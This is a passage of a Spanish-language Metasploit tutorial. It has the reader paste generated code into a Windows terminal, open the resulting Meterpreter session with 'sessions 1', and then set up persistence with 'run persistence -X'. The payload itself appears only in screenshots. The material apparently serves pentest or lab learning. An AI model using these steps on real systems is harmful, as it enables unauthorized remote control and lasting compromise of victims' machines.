

Ese codigo generado debemos pegarlo en la terminal de windows que teniamos abierta.

En metasploit veremos que se ha generado una nueva  session.



Entramos en sessions 1.

```bash 

sessions 1

```

Y vemos nuestra consola meterpreter.



El siguiente paso es configurar la persistencia, esto se hace con el comando **run persistence -X**.


